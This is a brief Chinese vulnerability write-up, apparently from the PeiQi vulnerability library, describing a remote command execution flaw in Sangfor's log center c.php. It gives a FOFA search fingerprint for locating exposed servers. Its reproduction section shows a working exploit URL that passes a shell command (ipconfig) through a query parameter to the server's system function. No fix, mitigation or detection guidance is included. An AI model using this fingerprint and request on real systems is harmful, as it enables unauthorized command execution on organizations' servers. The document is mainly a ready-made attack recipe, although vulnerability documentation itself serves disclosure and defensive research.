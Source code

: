 ```yaml
---
title: 深信服 日志中心 c.php 远程命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 深信服
---
```


#  深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

> [!NOTE]
>
> 深信服 日志中心

## FOFA

> [!NOTE]
>
> body="isHighPerformance : !!SFIsHighPerformance,"

## 漏洞复现

登录页面如下

![image-20210531192407444](/img/20210924020227549712.png)

访问漏洞Url

```
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![image-20210531192540462](/img/20210924020227868625.png)